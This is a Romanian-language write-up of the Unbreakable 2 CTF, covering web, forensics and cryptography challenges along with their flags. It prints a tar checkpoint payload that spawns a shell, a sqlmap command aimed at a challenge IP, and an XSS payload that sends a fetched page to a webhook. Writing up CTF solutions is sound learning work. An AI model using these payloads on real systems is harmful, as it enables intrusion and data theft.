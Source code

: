 ```yaml
---
title : Unbreakable 2
published : true
date: 2020-12-18T12:59:05+02:00
author : PS
---
```



## Contents

- Tartarsausage(web)    

- Sherlock's Mystery(Forensics)    

- small-data-leak(web)    

- HiddenTypo(Forensics)    

- frameble(web) 

- war-plan(cryptography, steganography)  

- conclusion

### Tartarsausage  
Tartarsausage la prima vedere parea o mare durere de cap    
In momentul accesarii paginii , suntem intampinati de un file upload    

<div>
<center><img src="/img/ubr2/tts1.png"></center>
</div>
Am incercat tot ce se puteam incerca , de la payloads in php pana la xss (unde am gasit un xss in name-ul imaginilor )  
So, am inceput sa rulez un dirb , poate gaseste ceva,  
Singurul lucru gasit a fost un index.php care nu m-a ajutat cu nimic  
Dar dupa ce m-am uitat in codul sursa al paginii am gasit :   

{{< highlight go  >}}
form action="sadjwjaskdkwkasjdkwasdasdas.html" method="POST"
{{< / highlight >}}
Nu vreti sa stiti cat am ras cand am vazut pagina ascunsa ROFL

Accesand pagina gasim 

<div>
<center><img src="/img/ubr2/tts2.png"></center>
</div>

Avem deja un mare *hint* **Enter TAR**  
so, dat find faptul ca nu sunt foarte bun cu tar (nu sunt bun deloc) a trebuit sa fac niste googling si am dat de GTFOBins
si aveau un payload pt asta :  
{{< highlight go  >}}
-cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
{{< / highlight >}}
Dupa asta cam tot a fost usor , inlocuiesti */bin/sh* cu ls -la , iar dupa ce descoperi fisierul cu flag-ul , mai trebuie un simplu cat  
{{< highlight go >}} Flag Proof : ctf{d618f4caf3fdca9634a6ab498883a992f2a125b891165b30a5925f2845708ab7}{{< / highlight >}}  


### Sherlock's Mystery
Acest chall a fost destul de ciudat , iar prin ciudat ma refer la faptul ca se rezolva prin simpla citire a fisierului dat  
Dupa ce decodam un string gasit la linia 216 avem flag-ul  
{{< highlight go >}}  Flag Proof :  ctf{thisisthe1stflag} {{< / highlight >}}  


### small-data-leak
small-data-leak sau SDL cum imi place sa ii spun a fost o simpla sqli vulnerabilitate , in descrierea chall-ului gasim /user?id=
ceea ce ne indica aceasta vulnerabilitate , fara sa mai vizitez pagina m-am dus direct la sqlmap  
{{< highlight go >}}   sqlmap -u 'http://35.198.183.125:30321/user?id=1' --tables {{< / highlight >}}
si gata , avem flag-ul :D !
{{< highlight go >}}   Flag Proof : ctf{70ff919c37a20d6526b02e88c950271a45fa698b037e3fb898ca68295da2fc0a}  {{< / highlight >}}  




### HiddenTypo
Parere personala , din toate chall-urile de la unbr 2 acesta a fost cel mai enervant =))  
Din cauza ca nu am citit atent partea de descriere a chall-ului am pierdut mult timp.  
Am folosit volatility.  
Voi taia direct la solutie, in descriere gasim greseala : **tikcket**  
Comanda finala fiind : 
{{< highlight go >}}   volatility_2.6_lin64_standalone -f admin.bin --profile=Win7SP1x64  dumpfiles -Q 0x000000007e045970 --name tikcket.png -D funny   {{< / highlight >}}  
Am mai pierdut timp deoarece am uitat ca e o imagine , iar in loc sa o deschid ca un om normal i-am dat *cat* :D  
Iar finalul grandios a fost : 

 <div>
<center><img src="/img/ubr2/lmao.png"></center>
</div>

**Puteam sa ghicesc aia** 

### frameble 
frameble este fratele mai mic al lui cross-me de la DCTF-2020 =))  
In mare parte a fost easy , deoarece  a mai fost dat , voi pune direct payload-ul  


{{< highlight go >}}     "><script>fetch('http://127.0.0.1:1234/index.php?page=post&id=33').then(function(response){return response.text();}).then(function(myText){location='webhook'+btoa(myText) });</script> {{< / highlight >}}

in contentul criptat in base64 din response gasim in **body** flag-ul

{{< highlight go >}}    Flag Proof : CTF{ce6675f186ac75938de69ba5037fa42f792e0041404456d11b1a80d072f4b547} {{< / highlight >}}


### war-plan  
In war-plan primim un .wav file, dupa ce am ascultat 4 secunde fisierul am realizat ca e morse code  
Asa ca am cautat pe *gugle* ceva tool si am gasit , apoi au venit 30 de min dureroase de ascultat numai beep-boop-beep  
Am luat codul final  
{{< highlight go >}}   THE BATTLE OF THE BULGE, ALSO KNOWN AS THE ARDENNES COUNTEROFFENSIVE, WAS THE LAST MAJOR GERMAN OFFENSIVE CAMPAIGN ON THE WESTERN FRONT DURING WORLD WAR II, AND TOOK PLACE FROM 16 DECEMBER 1944 TO 25 JANUARY 1945. IT WAS LAUNCHED THROUGH THE DENSELY FORESTED ARDENNES REGION OF WALLONIA IN EASTERN BELGIUM, NORTHEAST FRANCE, AND LUXEMBOURG, TOWARDS THE END OF THE WAR IN EUROPE. THE OFFENSIVE WAS INTENDED TO STOP ALLIED USE OF THE BELGIAN PORT OF ANTWERP AND TO SPLIT THE ALLIED LINES, ALLOWING THE GERMANS TO ENCIRCLE AND DESTROY FOUR ALLIED ARMIES AND FORCE THE WESTERN ALLIES TO NEGOTIATE A PEACE TREATY IN THE AXIS POWERS' FAVOR. XXGVXVVVXDVAAFGXFGGXXAGXFVGGAAFAAVVADDVGDGGGVAAAGGXDFXXVDXXVVAVGGAGGXVVAVVGAVGFVVDVV BEFORE THE OFFENSIVE THE ALLIES WERE VIRTUALLY BLIND TO GERMAN TROOP MOVEMENT. DURING THE LIBERATION OF FRANCE, THE EXTENSIVE NETWORK OF THE FRENCH RESISTANCE HAD PROVIDED VALUABLE INTELLIGENCE ABOUT GERMAN DISPOSITIONS. ONCE THEY REACHED THE GERMAN BORDER, THIS SOURCE DRIED UP. IN FRANCE, ORDERS HAD BEEN RELAYED WITHIN THE GERMAN ARMY USING RADIO MESSAGES ENCIPHERED BY THE ENIGMA MACHINE, AND THESE COULD BE PICKED UP AND DECRYPTED BY ALLIED CODE-BREAKERS HEADQUARTERED AT BLETCHLEY PARK, TO GIVE THE INTELLIGENCE KNOWN AS ULTRA. IN GERMANY SUCH ORDERS WERE TYPICALLY TRANSMITTED USING TELEPHONE AND TELEPRINTER, AND A SPECIAL RADIO SILENCE ORDER WAS IMPOSED ON ALL MATTERS CONCERNING THE UPCOMING OFFENSIVE. 42 THE MAJOR CRACKDOWN IN THE WEHRMACHT AFTER THE 20 JULY PLOT TO ASSASSINATE HITLER RESULTED IN MUCH TIGHTER SECURITY LRX09BF1W3QUKJP52M4ZDCHOSYIE6VG8NAT7 AND FEWER LEAKS. THE ATTACKS BY THE SIXTH PANZER ARMY'S INFANTRY UNITS IN THE NORTH FARED BADLY BECAUSE OF UNEXPECTEDLY FIERCE RESISTANCE BY THE U.S. 2ND AND 99TH INFANTRY DIVISIONS. KAMPFGRUPPE PEIPER, AT THE HEAD OF SEPP DIETRICH'S SIXTH PANZER ARMY, HAD BEEN DESIGNATED TO TAKE THE LOSHEIM-LOSHEIMERGRABEN ROAD, A KEY2: SECONDWORLDWAR ROUTE THROUGH THE LOSHEIM GAP, BUT IT WAS CLOSED BY TWO COLLAPSED OVERPASSES THAT GERMAN ENGINEERS FAILED TO REPAIR DURING THE FIRST DAY. {{< / highlight >}}
 ce era 80% plain text , dar avea 3 strings foarte interesante : 
key2 : secondworlwar
XXGVXVVVXDVAAFGXFGGXXAGXFVGGAAFAAVVADDVGDGGGVAAAGGXDFXXVDXXVVAVGGAGGXVVAVVGAVGFVVDVV
LRX09BF1W3QUKJP52M4ZDCHOSYIE6VG8NAT7  
Ok, luand in considerare ca vorbim se second world war si de germania well realizam ca este vorba despre ADFGVX cipher **sad natzi noises** (joking =)) )  
**KABOOM**
Decriptam codul si poc avem flag-ul 

{{< highlight go >}}   Flag Proof : defendthewestgateofthefortresswithallcosts -> ctf{70cca323b9e0af74985285521f5751106a34f5c0b534e3f14c24c8fca027d9fc} {{< / highlight >}}




### Conclusion 

I got 9th place with 6/12 challs resolved <3 
 <div>
<center><img src="/img/ubr2/top.png"></center>
</div>










